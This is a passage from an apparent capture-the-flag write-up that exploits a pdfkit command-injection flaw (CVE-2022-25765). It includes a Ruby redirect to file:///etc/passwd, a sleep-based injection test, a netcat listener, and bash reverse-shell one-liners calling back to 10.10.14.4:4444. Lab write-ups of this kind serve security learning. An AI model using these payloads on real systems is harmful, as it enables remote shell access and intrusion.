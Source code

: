 ```ruby

response.headers['Location'] = "file:///etc/passwd"

```

- Another interesting [article](https://www.sidechannel.blog/en/html-to-pdf-converters-can-i-hack-them/) about vulnerabilities in pdf converters

> **SPOILER ALERT: None of this worked. But I left it here because the articles were interesting and it is an overview of the process when working on CTF. You go through a lot of rabbit holes.**

- Turns out that I saw after it is also using pdfkit. Let's have a look at exploit related to pdfkit v0.8.6
- We find a CVE for this version of pdfkit `CVE-2022-25765`
- [This poc](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795) is interesting
- Let's try `http://10.10.14.4/?name=#{'%20`sleep 5`'}`
- This seems to work  
![burp](../.res/2022-12-17-18-06-06.png)  
- There seem to be a delay for the server to respond.
- Let's try to get a shell using this method
- We set a listener `rlwrap nc -lvp 4444`
- I tried the following commands from my repeater `/bin/bash -i >& /dev/tcp/10.10.14.4/4444 0>&1` and `bash -i >& /dev/tcp/10.10.14.4/4444 0>&1` but was not successful
- We need a symbol safe shell, we can find one [here](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/linux#symbol-safe-shell)  
`bash -c 'bash -i >& /dev/tcp/10.10.14.4/4444 0>&1'`  